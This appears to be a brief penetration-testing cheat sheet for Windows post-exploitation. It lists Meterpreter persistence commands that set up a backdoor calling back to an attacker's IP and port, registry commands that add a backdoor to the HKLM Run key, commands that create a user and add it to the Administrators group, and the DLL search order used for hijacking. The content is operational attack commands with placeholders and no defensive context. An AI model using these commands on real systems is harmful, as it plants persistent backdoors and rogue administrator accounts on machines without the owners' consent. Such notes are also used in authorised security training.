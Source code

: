 ## Backdoor

**Meterpreter**

	 run persistence -h
	 run persistence -A -X -i [interval] -p [port] -r [ip]

OR

	reg queryval -k [register path] -v [entry]
	reg setval -k [registry key path] -d [value of the key] -v [name of key]
	reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "[path to backdoor]" -v [name of choice]

## New user
**Shell**

	net user [name] [password] /add
	net localgroup "[group]" [user] /add
	net localgroup "Administrators" [user] /add

## DLL Hijacking
Directory order:
1. Directory from which app is launched
2. C:\windows\system32
3. C:\windows\system
4. C:\windows
5. Current directory at app launch time
6. Any directories specified by %PATH% environment table